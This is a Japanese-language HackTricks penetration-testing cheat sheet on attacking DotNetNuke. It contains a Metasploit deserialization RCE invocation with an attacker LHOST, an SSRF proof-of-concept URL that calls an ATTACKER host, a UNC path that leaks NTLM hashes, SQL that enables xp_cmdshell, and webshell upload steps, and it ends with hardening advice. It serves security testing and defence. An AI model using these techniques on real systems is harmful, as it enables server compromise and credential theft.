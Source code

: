 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

DNNに**管理者**としてログインすると、**RCE**を取得するのは簡単ですが、過去数年で*未認証*および*認証後*の技術がいくつか公開されています。以下のチートシートは、攻撃的および防御的な作業のための最も有用なプリミティブを集めています。

---
## バージョンと環境の列挙

* *X-DNN* HTTPレスポンスヘッダーを確認してください - 通常、正確なプラットフォームバージョンが開示されます。
* インストールウィザードは、`/Install/Install.aspx?mode=install`でバージョンを漏洩します（非常に古いインストールでアクセス可能）。
* `/API/PersonaBar/GetStatus` (9.x)は、低権限ユーザー向けに`"dnnVersion"`を含むJSONブロブを返します。
* ライブインスタンスで見る典型的なクッキー：
* `.DOTNETNUKE` – ASP.NETフォーム認証チケット。
* `DNNPersonalization` – XML/シリアライズされたユーザープロファイルデータを含みます（古いバージョン - 下記のRCEを参照）。

---
## 未認証の悪用

### 1. クッキーのデシリアライズによるRCE (CVE-2017-9822 & フォローアップ)
*影響を受けるバージョン ≤ 9.3.0-RC*

`DNNPersonalization`は、組み込みの404ハンドラーが有効な場合、すべてのリクエストでデシリアライズされます。したがって、作成されたXMLは任意のガジェットチェーンとコード実行につながる可能性があります。
```
msf> use exploit/windows/http/dnn_cookie_deserialization_rce
msf> set RHOSTS <target>
msf> set LHOST  <attacker_ip>
msf> run
```
モジュールは、パッチが適用されているが依然として脆弱なバージョン（CVE-2018-15811/15812/18325/18326）に対して正しいパスを自動的に選択します。 7.x–9.1.xでは**認証なし**で、9.2.x+では*確認済み*の低権限アカウントでの利用が可能です。

### 2. サーバーサイドリクエストフォージェリ (CVE-2025-32372)
*影響を受けるバージョン < 9.13.8  –  パッチは2025年4月にリリース*

古い`DnnImageHandler`の修正をバイパスすることで、攻撃者はサーバーに**任意のGETリクエスト**を発行させることができます（セミブラインドSSRF）。 実際の影響：

* クラウドデプロイメントにおける内部ポートスキャン / メタデータサービスの発見。
* インターネットからファイアウォールで保護されたホストへの到達。

概念実証（`TARGET` & `ATTACKER`を置き換えてください）：
```
https://TARGET/API/RemoteContentProxy?url=http://ATTACKER:8080/poc
```
リクエストはバックグラウンドでトリガーされます; コールバックのためにリスナーを監視してください。

### 3. NTLMハッシュの露出 via UNCリダイレクト (CVE-2025-52488)
*影響を受けるバージョン 6.0.0 – 9.x (< 10.0.1)*

特別に作成されたコンテンツにより、DNNは `\\attacker\share\img.png` のような **UNCパス** を使用してリソースを取得しようとします。 Windowsは喜んでNTLMネゴシエーションを行い、サーバーアカウントのハッシュを攻撃者に漏洩します。 **10.0.1** にアップグレードするか、ファイアウォールでアウトバウンドSMBを無効にしてください。

### 4. IPフィルターバイパス (CVE-2025-52487)
管理者が管理ポータルの保護のために *Host/IPフィルター* に依存している場合、**10.0.1** より前のバージョンはリバースプロキシシナリオで `X-Forwarded-For` を操作することでバイパスされる可能性があることに注意してください。

---
## 認証後のRCE

### SQLコンソール経由
**`Settings → SQL`** の下にある組み込みクエリウィンドウを使用して、サイトデータベースに対して実行できます。 Microsoft SQL Serverでは、**`xp_cmdshell`** を有効にしてコマンドを生成できます:
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```
### ASPXウェブシェルのアップロード経由
1. **`設定 → セキュリティ → その他 → その他のセキュリティ設定`**に移動します。
2. **許可されるファイル拡張子**に`aspx`（または`asp`）を追加し、**保存**します。
3. **`/admin/file-management`**に移動し、`shell.aspx`をアップロードします。
4. **`/Portals/0/shell.aspx`**でトリガーします。

---
## Windowsでの特権昇格
**IIS AppPool\<Site>**としてコード実行が達成されると、一般的なWindows特権昇格技術が適用されます。ボックスが脆弱な場合、次のことを利用できます：

* **PrintSpoofer** / **SpoolFool**を使用して*SeImpersonatePrivilege*を悪用します。
* **Juicy/Sharp Potatoes**を使用して*サービスアカウント*から脱出します。

---
## ハードニング推奨事項（ブルーチーム）

* **9.13.9**（SSRFバイパスの修正）以上に**アップグレード**するか、できれば**10.0.1**（IPフィルターおよびNTLMの問題）にします。
* インストール後に残存する**`InstallWizard.aspx*`**ファイルを削除します。
* アウトバウンドSMB（ポート445/139）を無効にします。
* DNN内ではなく、エッジプロキシで強力な*ホストフィルター*を強制します。
* 使用していない場合は`/API/RemoteContentProxy`へのアクセスをブロックします。

## 参考文献

* Metasploit `dnn_cookie_deserialization_rce`モジュールのドキュメント – 実用的な認証なしRCEの詳細（GitHub）。
* GitHubセキュリティアドバイザリーGHSA-3f7v-qx94-666m – 2025年のSSRFバイパスおよびパッチ情報。
{{#include ../../banners/hacktricks-training.md}}
